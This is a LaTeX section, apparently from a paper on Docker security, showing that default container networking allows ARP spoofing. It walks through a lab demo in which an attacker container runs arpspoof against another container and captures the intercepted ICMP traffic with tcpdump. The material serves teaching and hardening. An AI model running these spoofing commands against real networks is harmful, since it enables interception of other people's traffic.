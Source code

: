 \subsection{ARP Spoofing}
By default all Docker containers are added to the same bridge network. This means they are able to reach each other. By default Docker containers also receive the \lstinline{CAP_NET_RAW} capability, which allows them to create raw packets. This means that by default, containers are able to ARP spoof other containers\footnote{IPv4 forwarding is enabled by default by Docker}\cite{Abusing-Containers}.

\hfill

Lets take a look at how this in a practical example. Lets say we have three containers. One container will ping another container. A third malicious container wants to intercept the \lstinline{ICMP} packets.

We start three Docker containers using the \lstinline{ubuntu:latest} image (which is the same as \lstinline{ubunut:bionic-20191029} at the time of writing). They have the following names IPv4 addresses and MAC addresses:
\begin{itemize}
    \item \lstinline{victim0}: \lstinline{172.17.0.2} and \lstinline{02:42:ac:11:00:02}
    \item \lstinline{victim1}: \lstinline{172.17.0.3} and \lstinline{02:42:ac:11:00:03}
    \item \lstinline{attacker}: \lstinline{172.17.0.4} and \lstinline{02:42:ac:11:00:04}
\end{itemize}

We use \lstinline{vic0}, \lstinline{vic1} and \lstinline{atck} instead of \lstinline{cont} to indicate in which container a command is executed.

\begin{lstlisting}[caption={Docker container ARP spoof},captionpos=b]
(host)$ docker run --rm -it --name=victim0 --hostname=victim0 ubuntu:latest /bin/bash
(vic0)# apt update
...
(vic0)# apt install net-tools iproute2 iputils-ping
...
(host)$ docker run --rm -it --name=victim1 --hostname=victim1 ubuntu:latest /bin/bash
(host)$ docker run --rm -it --name=attacker --hostname=attacker ubuntu:latest /bin/bash
(atck)# apt update
...
(atck)# apt install dsniff net-tools iproute2 tcpdump
...
(atck)# arpspoof -i eth0 -t 172.17.0.2 172.17.0.3
...
(vic0)# arp
arp
172.17.0.3 ether 02:42:ac:11:00:04 C eth0
...
172.17.0.4 ether 02:42:ac:11:00:04 C eth0
(vic0)# ping 172.17.0.3
...
(atck)# tcpdump -vni eth0 icmp
...
10:16:18.368351 IP (tos 0x0, ttl 63, id 52174, offset 0, flags [DF], proto ICMP (1), length 84)
    172.17.0.2 > 172.17.0.3: ICMP echo request, id 898, seq 5, length 64
10:16:18.368415 IP (tos 0x0, ttl 64, id 8188, offset 0, flags [none], proto ICMP (1), length 84)
    172.17.0.3 > 172.17.0.2: ICMP echo reply, id 898, seq 5, length 64
...
\end{lstlisting}

